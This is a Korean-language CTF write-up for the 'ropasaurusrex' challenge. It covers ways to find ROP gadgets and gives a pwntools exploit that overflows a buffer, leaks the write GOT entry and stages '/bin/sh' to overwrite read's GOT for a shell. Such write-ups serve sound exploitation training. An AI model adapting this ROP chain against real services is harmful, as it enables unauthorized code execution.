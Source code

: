 

### 시나리오

![1568443842960](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568443842960.png)





## Gadget

- Gadget 찾는법은 일일이 손으로 찾는 방법

- gdb-peda 의 ropgadget 명령어 사용하여 찾아내는 방법

- rp++ 프로그램을 통해 알아내는 방법 ( 자세한 내용은 인터넷 검색 )

  이 있다.

  

- 여기서는 gdb ropasourusrex 를 통해 알아냄

![1568276602528](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568276602528.png)





## exploit

![1568286960497](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568286960497.png)

```python
#!/usr/bin/python
from pwn import *

context.log_level = 'debug'

p = process('./ropasaurusrex')
binary = ELF('./ropasaurusrex')
lib = ELF('/lib/i386-linux-gnu/libc.so.6')

#gdb.attach(p)

write_got = 0x8049614
read_plt = 0x0804832C
read_got = 0x0804961C
pppr = 0x80484b6
sh='/bin/sh\x00'

write_offset = lib.symbols['write']
system = lib.symbols['system']


write_plt = binary.plt['write']
writable = binary.bss() + 0x100

log.info('write addr: ' + hex(write_plt))
log.info('writable addr: ' + hex(writable))

payload = 'a'*0x88 + 'b'*4
payload += p32(write_plt) + p32(pppr) + p32(1) + p32(write_got) + p32(4)
payload += p32(read_plt) + p32(pppr) + p32(0) + p32(writable) + p32(8)
payload += p32(read_plt) + p32(pppr) + p32(0) + p32(read_got) + p32(4)
payload += p32(read_plt) + p32(1) + p32(writable)

p.send(payload)
```